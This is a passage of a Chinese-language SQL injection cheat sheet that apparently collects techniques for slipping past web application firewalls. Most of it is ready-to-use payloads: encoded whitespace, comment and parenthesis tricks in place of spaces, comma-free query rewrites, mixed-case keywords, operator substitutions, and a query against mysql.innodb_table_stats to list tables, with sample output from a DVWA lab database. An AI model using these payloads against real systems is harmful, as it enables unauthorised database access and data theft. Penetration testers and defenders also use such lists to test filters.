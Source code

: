 
## WAF 旁路

无空间 (%20) - bypass 使用空格替代
```
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

无空白 - bypass使用comments
```
?id=1/*comment*/and/**/1=1/**/--
```

无空白 - bypass使用括号
```
?id=(1)and(1)=(1)--
```

无逗号 - bypass使用 OFFSET, FROM and JOIN
```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

使用关键字的黑名单 - bypass使用大写/小写
```
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

关键字不区分大小写的黑名单 - bypass使用等效运算符
```
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

Information_schema.tables Alternative
```
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> show tables in dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
```